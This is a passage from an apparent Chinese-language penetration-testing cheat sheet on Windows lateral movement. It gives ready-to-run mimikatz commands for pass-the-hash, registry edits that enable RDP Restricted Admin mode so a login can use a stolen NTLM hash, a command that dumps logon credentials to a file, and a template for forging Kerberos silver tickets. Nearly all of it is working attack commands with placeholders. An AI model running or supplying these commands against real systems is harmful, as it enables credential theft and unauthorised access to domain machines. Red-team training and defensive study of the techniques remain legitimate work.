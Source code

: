 3. mimikatz 修改注册表

    如果你有一个用户的 NTLM 哈希值，而这个用户有设置注册表的权限，你可以使用 Powershell 来启用它，然后通过 RDP 登录。
    ```bash
    mimikatz.exe privilege::debug "sekurlsa::pth /user:<user name> /domain:<domain name> /ntlm:<the user's ntlm hash> /run:powershell.exe"
    ```
    ```bash
    Enter-PSSession -Computer <Target>
    New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0"
    ```

4. 使用攻击机自己的用户及 Hash 进行远程登录
    ```bash
    mstsc.exe /restrictedadmin
    ```
    如果当前系统支持受限管理模式，则上述命令执行后会直接弹出远程登录的登录界面；如果当前系统不支持受限管理模式，则上述命令执行后会弹出远程桌面的参数说明

    如果上述命令顺利执行，输入目标机器的 IP 和端口，可直接进行远程登录，不需要输入任何口令，这种方式会使用当前攻击机的用户名和用户 hash 尝试登录目标机器

    开启 Restricted Admin mode
    ```bash
    REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
    ```

---

## PTT

### Silver_Tickets

导出 Server Hash
```bash
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```

使用 mimikatz 伪造白银票据：
```bash
mimikatz.exe "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt" exit
```

**例子:访问域控上的 cifs 服务(Windoiws 主机间的文件共享)**

在域控上执行以下命令获取本地账户 NTLM Hash 和 SID

```bash
mimikatz.exe "privilege::debug” "sekurlsa::logonpasswords" "exit" > log.txt
```
